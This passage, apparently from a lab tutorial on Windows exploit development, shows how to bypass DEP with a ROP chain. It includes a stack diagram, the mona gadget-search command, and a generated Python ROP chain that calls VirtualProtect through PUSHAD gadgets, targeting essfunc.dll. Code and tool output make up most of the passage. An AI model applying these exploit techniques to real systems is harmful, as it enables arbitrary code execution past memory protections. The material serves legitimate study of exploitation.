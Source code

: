 ``` text
ECX |                 | <- lpflOldProtect
    `-----------------'
    .-----------------.
EAX |                 | <- \x90\x90\x90\x90
    `-----------------'
    .-----------------.
    |                 | <- Shellcode
    `-----------------'
...
Higher addresses
```

Perfect. We need to use `ROP` gadgets to setup those registers first and
then add a pointer to a `PUSHAD # RETN` gadget at the end of the chain.
Fortunately for us, `mona` will do the hard work, by issuing the
following command:

``` bash
!mona rop -m *.dll -n
```

This will go through all executable modules finding `ROP` gadgets that
can be useful. At the end, `mona` will generate several files with the
result. The most important one in this stage is `rop_chains.txt` file
that contains the chain of gadgets needed to setup the registers with
the values in the required order.

This is the resulting ROP gadget chain in my system:

``` python
  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
      0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebp:---]
      0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x625011af,  # & jmp esp [essfunc.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x625011b4,  # POP EAX # RETN [essfunc.dll]
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edx:---]
      0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ecx:---]
      0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

```